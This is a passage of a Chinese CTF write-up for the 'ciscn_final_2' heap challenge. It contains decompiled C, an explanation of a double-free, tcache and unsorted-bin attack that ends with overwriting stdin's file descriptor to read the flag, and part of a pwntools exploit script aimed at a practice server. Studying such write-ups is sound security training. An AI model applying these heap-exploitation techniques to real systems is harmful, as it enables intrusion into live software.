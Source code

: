```
  `}`
  return __readfsqword(0x28u) ^ v3;
`}`
```

在byebye函数中，会读取输入，然后进行输出，于是我们可以将标准输入流修改为666，这样在进行输入时就会输出flag文件了。

```
void __noreturn bye_bye()
`{`
  char v0[104]; // [rsp+0h] [rbp-70h] BYREF
  unsigned __int64 v1; // [rsp+68h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("what do you want to say at last? ");
  __isoc99_scanf("%99s", v0);
  printf("your message :%s we have received...\n", v0);
  puts("have fun !");
  exit(0);
`}`
```

我们可以先通过double free，来泄露出heap的地址，然后让short chunk的fd指针指向一块int chunk的content的地址，然后对其size位进行修改，然后用这块被修改了size位的chunk去填充tcachebins，然后使得之后的chunk在free后进入unsortbin中，然后泄露出libc的基址。

之后double free分配到stdin的位置，修改其为666，就可以输出flag了。

exp:

```
from pwn import *

# io = process('./ciscn_final_2',env=`{`"LD_PRELOAD":"./libc-2.27.so"`}`)
io = remote('node3.buuoj.cn', 28685)
libc = ELF('./libc-2.27.so')

def add(add_type, add_num):
    io.sendlineafter('which command?\n&gt; ', '1')
    io.sendlineafter('TYPE:\n1: int\n2: short int\n&gt;', str(add_type))
    io.sendafter('your inode number:', str(add_num))


def delete(remove_type):
    io.sendlineafter('which command?\n&gt; ', '2')
    io.sendlineafter('TYPE:\n1: int\n2: short int\n&gt;', str(remove_type))


def display(show_type):
    io.sendlineafter('which command?\n&gt; ', '3')
    io.sendlineafter('TYPE:\n1: int\n2: short int\n&gt;', str(show_type))
    if show_type == 1:
        io.recvuntil('your int type inode number :')
    elif show_type == 2:
        io.recvuntil('your short type inode number :')
    return int(io.recvuntil('\n', drop=True))

add(1,0x30)
delete(1)
add(2,0x20)
add(2,0x20)
add(2,0x20)
add(2,0x20)
delete(2)
add(1,0x30)
delete(2)

```